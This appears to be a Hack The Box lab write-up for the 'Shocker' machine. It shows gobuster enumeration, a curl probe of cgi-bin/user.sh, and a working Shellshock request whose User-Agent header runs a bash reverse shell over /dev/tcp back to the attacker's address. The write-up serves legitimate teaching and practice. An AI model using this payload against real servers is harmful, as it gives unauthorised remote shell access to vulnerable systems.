



# 10 - HTTP


# index.html


The index page doesn't look interesting. It is a static page with .html extension. Let's run gobuster against the website to reveal hidden places.


# cgi-bin/

```bash
┌─[user@parrot]─[10.10.14.4]─[~/htb/shocker]
└──╼ $ gobuster dir -f -u 10.10.10.56/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt  -o gobuster/dir.log -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2021/09/03 20:28:25 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/.html/               (Status: 403) [Size: 292]
/.htm/                (Status: 403) [Size: 291]
/./                   (Status: 200) [Size: 137]
/icons/               (Status: 403) [Size: 292]
/.htaccess/           (Status: 403) [Size: 296]
/.htc/                (Status: 403) [Size: 291]
```

I like to use raft-small-words.txt because directory-list-2.3-medium.txt has not been updated for over 7 years so it does not contain new technology extensions like .git

The thing about the word list is that it does not include directory syntax in the words. That's because we are used to getting 301 redirects for directories and this server, however, doesn't respond with a new location instead it responds with 404 not found. Thankfully, gobuster has a flag to append "/" to every requests.


-f flag appends "/" to every request

# user.sh



cgi-bin typically contains codes written in C or Perl but let us specify ".sh" as an extension because shocker might be a hint that we are dealing with shellshock. The problem with shellshock vulnerability is that ubuntu xenial should have fixed it already. The only reason shellshock would work on this box is if it is installed manually.

```bash
┌─[user@parrot]─[10.10.14.4]─[~/htb/shocker]
└──╼ $ curl 10.10.10.56/cgi-bin/user.sh -v
*   Trying 10.10.10.56:80...
* Connected to 10.10.10.56 (10.10.10.56) port 80 (#0)
> GET /cgi-bin/user.sh HTTP/1.1
> Host: 10.10.10.56
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 04 Sep 2021 10:46:26 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Transfer-Encoding: chunked
< Content-Type: text/x-sh
< 
Content-Type: text/plain

Just an uptime test script

 06:46:26 up 19:15,  0 users,  load average: 0.00, 0.00, 0.00


* Connection #0 to host 10.10.10.56 left intact
```

We are getting a file for downloading on firefox because content type is x-sh. Content-Type: text plain is left in the body.


# Shell Shock
```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; echo; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 4
```

After trial and error we see that this request pops a reverse shell. The echo part is important because while constructing the response, http protocol needs to distinguish between head and body. It is done by a blank line otherwise everything will be in head, it's against the protocol and it results in 500 internal server error.



